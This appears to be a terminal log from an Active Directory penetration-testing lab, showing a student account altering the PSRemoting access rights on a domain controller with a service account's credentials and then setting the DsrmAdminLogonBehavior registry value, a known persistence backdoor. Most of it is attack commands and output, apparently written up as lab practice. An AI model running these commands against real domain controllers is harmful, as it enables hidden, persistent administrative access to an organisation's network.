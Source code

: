 ```
VERBOSE: New ACL for PSRemoting is O:NSG:BAD:P(A;;GA;;;IU)(A;;GA;;;BA)(A;;GA;;;RM)(A;;GA;;;S-1-5-21-1874506631-3219952063-538504511-45139)S:P(AU;FA;GA;;;WD)(AU;SA;GXGW;;;WD)

PS C:\AD\Tools> Enter-PSSession dcorp-dc
Enter-PSSession : Connecting to remote server dcorp-dc failed with the following error message : Access is denied. For more information, see the about_Remote_Troubleshooting Help topic.
At line:1 char:1
+ Enter-PSSession dcorp-dc
+ ~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidArgument: (dcorp-dc:String) [Enter-PSSession], PSRemotingTransportException
    + FullyQualifiedErrorId : CreateRemoteRunspaceFailed

PS C:\AD\Tools> Enter-PSSession dcorp-std503
[dcorp-std503]: PS C:\Users\student503\Documents> exit

PS C:\AD\Tools> Set-RemotePSRemoting -SamAccountName student503 -ComputerName dcorp-dc -Verbose
[dcorp-dc] Connecting to remote server dcorp-dc failed with the following error message : Access is denied. For more information, see the about_Remote_Troubleshooting Help topic.
    + CategoryInfo          : OpenError: (dcorp-dc:String) [], PSRemotingTransportException
    + FullyQualifiedErrorId : AccessDenied,PSSessionStateBroken

PS C:\AD\Tools> Set-RemotePSRemoting -SamAccountName student503 -ComputerName dcorp-dc -Verbose -Credential svcadmin
Processing data for a remote command failed with the following error message: The I/O operation has been aborted because of either a thread exit or an application request. For more information, see the about_Remote_Troubleshooting Help topic.
    + CategoryInfo          : OperationStopped: (dcorp-dc:String) [], PSRemotingTransportException
    + FullyQualifiedErrorId : JobFailure
    + PSComputerName        : dcorp-dc

PS C:\AD\Tools> Enter-PSSession dcorp-dc
[dcorp-dc]: PS C:\Users\student503\Documents> whoami;hostname
dcorp\student503
dcorp-dc

[dcorp-dc]: PS C:\Users\student503\Documents> ls c:\

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       11/29/2019   1:32 AM                PerfLogs
d-r---        2/16/2019   9:14 PM                Program Files
d-----        7/16/2016   6:23 AM                Program Files (x86)
d-r---        1/29/2021   8:04 AM                Users
d-----        8/20/2020   2:05 AM                Windows

[dcorp-dc]: PS C:\Users\student503\Documents>

[dcorp-dc]: PS C:\Users\student503\Documents> ls C:\Users\Administrator\
ls : Access to the path 'C:\Users\Administrator' is denied.
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand

[dcorp-dc]: PS C:\Users\student503\Documents> exit

PS C:\AD\Tools> Set-RemotePSRemoting -SamAccountName student503 -ComputerName dcorp-dc -Verbose -Credential svcadmin -Remove
```

[dcorp-dc]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD